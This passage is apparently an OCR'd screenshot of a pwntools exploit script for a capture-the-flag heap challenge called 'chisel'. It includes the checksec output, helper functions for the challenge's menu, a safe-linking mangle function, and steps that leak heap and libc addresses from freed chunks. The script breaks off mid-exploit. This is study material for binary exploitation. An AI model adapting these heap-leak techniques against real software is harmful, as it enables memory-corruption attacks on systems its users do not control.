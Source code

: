 ```python
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ pwn checksec chisel
#     Arch:     amd64-64-little
#     RELRO:    Full RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
#     RUNPATH:  b'.'

def alloc(size):
    log.info('ALLOC[%#x]', size)
    io.sendlineafter(b'>', b'1')
    io.sendlineafter(b'size:', str(size).encode())  

def free():
    io.sendlineafter(b'>', b'2')

def edit(data: int):
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b'data:', str(data).encode())

def read() -> int:
    io.sendlineafter(b'>', b'4')
    io.recvuntil(b'data: ')
    return int(io.recvline().strip())

def chisel():
    io.sendlineafter(b'>', b'5')

def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def exploit():
    global io
    io = initialize()

    BASE_SIZE = 0x418

    alloc(0x10)
    free()
    heap = read() << 12
    alloc(0x10)

    for i in range(1, 4):
        alloc(BASE_SIZE + (i * 0x20))
        chisel()
        free()
    libc.address = read() - 0x1e0c00

    # smallbins
    # 0x20: 0x564324bd19b0 —▸ 0x564324bd1030 —▸ 0x564324bd06d0 —▸ 0x7fd450556c10 ◂— 0x564324bd19b0
```
